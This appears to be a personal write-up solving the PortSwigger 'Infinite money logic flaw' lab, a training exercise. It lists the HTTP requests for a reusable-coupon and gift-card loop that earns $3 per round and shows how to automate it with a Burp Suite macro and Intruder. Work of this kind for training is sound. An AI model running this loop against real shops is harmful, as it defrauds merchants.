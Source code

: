 # [Lab: Infinite money logic flaw](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money)

## Lab

This lab has a logic flaw in its purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

infinite chain (+3$ each):

1. add $10 `gift card` to cart:

    ```http
    POST /cart HTTP/1.1

    productId=2&redir=PRODUCT&quantity=1
    ```

2. apply coupon:

    ```http
    POST /cart/coupon HTTP/1.1

    csrf=EzdIdEF4YczudJrxSiM8lLHem7d7VZgM&coupon=SIGNUP30
    ```

3. checkout and order (-$7):

    ```http
    POST /cart/checkout HTTP/1.1

    csrf=EzdIdEF4YczudJrxSiM8lLHem7d7VZgM
    ```

    ```http
    GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
    ```

4. redeem (+$10):

    ```http
    POST /gift-card HTTP/1.1

    csrf=EzdIdEF4YczudJrxSiM8lLHem7d7VZgM&gift-card=BD2anJ8LVr
    ```

because the coupon SIGNUP30 can be reused, so we can do this chain endlessly.

## macro in burpsuite

A macro in Burp Suite is a series of HTTP requests to be sent to the server prior to requests which have been proxied by Burp. Once the macro requests have been carried out, the set of parameters taken from the response of the final macro request can then be passed on to the request that called the macro.

## solutions

- picture 1:
  1. settings
  2. -> sessions
  3. add rule
  4. tick `include all URLs`

![1.png](./../img/lab-10-macro-1.png)

- picture 2:
  1. add rule action
  2. choose `run a macro`

![2.png](./../img/lab-10-macro-2.png)

- picture 3:
  1. add macro
  2. choose requests

![3.png](./../img/lab-10-macro-3.png)

- picture 4 (get parameter from 4th response):
  1. choose 4th request
  2. configuration
  3. add custom parameter
  4. set parameter name
  5. select gift-card position

![4.png](./../img/lab-10-macro-4.png)

- picture 5(set parameter for 5th request):
  1. choose 5th request
  2. configuration
  3. set parameter handling: `derive from prior response: response 4`

![5.png](./../img/lab-10-macro-5.png)

run intruder attack (random request):

- mode: sniper
- payload:
  - null payload
  - 412 times (103 + 412*3 > 1337)
- resource pool:
  - maximum concurrent requests: 1

wait for intruder attack complete and buy the $1337 product => solved
